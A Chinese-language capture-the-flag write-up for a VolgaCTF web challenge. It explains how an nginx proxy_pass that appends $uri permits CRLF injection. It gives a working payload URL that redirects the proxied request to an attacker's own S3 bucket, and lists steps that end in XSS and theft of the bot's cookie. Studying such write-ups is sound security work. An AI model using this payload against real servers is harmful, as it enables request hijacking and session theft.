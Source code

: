 ![](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/112757165-2ab5b400-901b-11eb-93e4-da002018580e.png)

nginx 配置文件

```nginx
server {
    listen 443 ssl;
    resolver 8.8.8.8;
    server_name static-site.volgactf-task.ru;

    ssl_certificate      /etc/letsencrypt/live/volgactf-task.ru/fullchain1.pem;
    ssl_certificate_key  /etc/letsencrypt/live/volgactf-task.ru/privkey1.pem;

    add_header Content-Security-Policy "default-src 'self'; object-src 'none'; frame-src https://www.google.com/recaptcha/; font-src https://fonts.gstatic.com/; style-src 'self' https://fonts.googleapis.com/; script-src 'self' https://www.google.com/recaptcha/api.js https://www.gstatic.com/recaptcha/" always;
   
    location / {
      root /var/www/html;
    }

    location /static/ {
      proxy_pass https://volga-static-site.s3.amazonaws.com$uri;
    }
}
```



直接拼接$uri使得我们可以注入CRLF。

proxy_pass配合CRLF的payload：

```
https://static-site.volgactf-task.ru/static/app.js%20HTTP/1.0%0d%0aHost:%20ctftesthuli.s3.amazonaws.com%0d%0ayo:
```

发出的HTTP请求如下：

```http
GET /static/app.js HTTP/1.0
Host: ctftesthuli.s3.amazonaws.com
yo:
Host: static-site.volgactf-task.ru
```

这样就可以使得主机访问到恶意指定的服务器，在服务器上放置js脚本，构造xss即可拿到cookie



攻击流程

1. 创建自己的S3 bucket
2. 上传 /static/index.html
3. 上传 /static/app.js
4. 使得机器人访问 [https://static-site.volgactf-task.ru/static/index.html%20HTTP/1.0%0d%0aHost:%20ctftesthuli.s3.amazonaws.com%0d%0ayo](https://static-site.volgactf-task.ru/static/index.html HTTP/1.0 Host: ctftesthuli.s3.amazonaws.com yo):
5. XSS 成功
